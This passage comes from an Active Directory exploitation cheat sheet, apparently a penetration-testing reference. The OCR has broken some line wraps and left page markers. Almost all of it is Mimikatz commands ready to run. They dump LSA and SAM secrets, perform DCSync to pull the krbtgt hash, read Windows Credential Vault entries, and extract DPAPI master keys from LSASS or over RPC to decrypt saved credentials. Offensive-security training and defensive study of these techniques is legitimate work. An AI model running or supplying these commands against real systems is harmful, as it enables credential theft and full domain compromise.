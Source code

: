 25/31

lsadump::lsa /patch
# Dump only local users
lsadump::sam
# DCSync (requires 'ldap' SPN)
lsadump::dcsync /user:dcorp\krbtgt /domain:dollarcorp.mo

Windows Credential Vault dumping
I’ve had some issues using this with Invoke-Mimikatz.ps1
Try with native Mimikatz if having issues

# Dump windows secrets, such as stored creds for
scheduled tasks (elevate first)
vault::list
vault::cred /patch
# Dump windows secrets DPAPI method (less noise and no
specific rights reqd yay)
## More here:
https://github.com/gentilkiwi/mimikatz/wiki/howto-~credential-manager-saved-credentials
## First, get GUID of master key for specific secret
dpapi::cred
/in:C:\Users\appadmin\AppData\local\Microsoft\Credential
s\DFBE70A7E5CC19A398EBF1B96859CE5D
## EITHER Grab dpapi keys from LSASS
sekurlsa::dpapi
## OR Grab and cache a specific key
dpapi::masterkey /rpc
/in:C:\Users\appadmin\AppData\Roaming\Microsoft\Protect\
S-1-5-21-3965405831-1015596948-2589850225-1118\a89b97d2b520-462d-a924-d57df68c543b
## Mimikatz will cache the master key (check with
dpapi::cache)

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

26/31

## Then run the initial dpapi::cred command again to get
the juice!
